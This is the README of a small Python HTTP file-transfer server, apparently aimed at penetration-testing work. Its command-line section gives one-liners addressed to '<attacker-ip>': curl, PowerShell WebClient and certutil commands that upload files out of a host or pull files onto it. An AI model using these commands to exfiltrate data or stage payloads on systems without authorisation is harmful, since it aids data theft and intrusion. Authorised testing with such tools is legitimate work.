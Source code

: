 # 🔁 Advanced File Transfer Server

A lightweight, cross-platform, zero-dependency HTTP server written in Python that enables file upload and download from any system via a web browser or command line. Perfect for sharing files across local networks quickly and safely (for trusted environments).

---

## ✅ Features

- 📂 Browse directories via a web browser  
- 📥 Download files via direct links  
- ⬆️ Upload files via web interface  
- 🧾 Upload files via `curl` using the `PUT` method  
- 📁 Uploaded files respect the path based on browser or CLI context  
- ⚙️ Works on **Linux**, **macOS**, and **Windows**  
- 🚫 100% standard Python no third-party dependencies  

---

## 💻 Requirements

- Python 3.x (tested on 3.6+)  
- Open network port (default: `8080`)  
- No installation or configuration required  

---

## 🚀 Getting Started

### Clone or Download
```bash
git clone https://github.com/Chittu13/File_Transfer.git
cd File_Transfer
python3 Httpseever3.py
#Or

python2 Httpserver2.py
```


## 🌐 Web Interface

- Open `http://<your-ip>:8080/` in your browser  
- Navigate folders by clicking on links  
- Use the upload form to send files to the current folder  
- Uploaded files are saved in the **current folder you are viewing**  

---

## 📤 Upload & Download via Command Line

### Linux

#### Upload
```bash
curl -T file http://<attacker-ip>:8080/
```

#### Download
```bash
wget http://<attacker-ip>:8080/file.txt
```

### Windows

#### Upload 
```powershell
# Using curl
curl -T C:\Users\Public\file.txt http://<attacker-ip>:8080/

# Using PowerShell WebClient
$WebClient = New-Object System.Net.WebClient
$WebClient.UploadFile("http://<attacker-ip>:8080/file.txt", "PUT", "C:\Users\Public\file.txt")
```

#### Download 
```powershell
# Using Invoke-WebRequest
Invoke-WebRequest -Uri "http://<attacker-ip>:8080/file.txt" -OutFile "C:\Users\Public\file.txt"

# Using certutil
certutil -urlcache -split -f "http://<attacker-ip>:8080/file.txt" "C:\Users\Public\file.txt"

# Using curl
curl -o C:\Users\Public\file.txt http://<attacker-ip>:8080/file.txt
```

## 🛡 Security Warning

⚠️ This tool is **not secure for public or internet-facing use**:  

- No authentication or encryption  
- No user restrictions  
- Anyone on the network can access, upload, or download files  

✅ **Use only:**  

- On local networks  
- With trusted users  
- In controlled environments
